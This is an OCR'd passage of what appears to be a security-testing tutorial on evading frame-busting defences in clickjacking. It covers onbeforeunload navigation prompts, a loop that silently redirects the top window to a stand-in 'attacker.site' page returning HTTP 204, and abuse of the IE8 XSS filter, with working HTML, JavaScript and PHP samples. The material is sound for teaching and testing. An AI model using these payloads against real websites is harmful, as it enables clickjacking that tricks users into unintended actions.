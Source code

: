 ## OnBeforeUnload Event
* The `onBeforeUnload` event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating target’s frame busting attempt.

* The attacker can use this attack by registering an unload event on the top page using the following example code:
 ```html
 <h1>www.fictitious.site</h1>
 <script>
     window.onbeforeunload = function()
     {
         return " Do you want to leave fictitious.site?";
     }
 </script>
 <iframe src="http://target site">
 ```

* The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a _"HTTP/1.1 204 No Content"_ header.
`204 page`
```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```
`Attacker's Page`
```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

## XSS Filter
### IE8 XSS filter 
This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request’s parameters.
  ```html
  <script>
      if ( top != self )
      {
          top.location=self.location;
      }
  </script>
  ```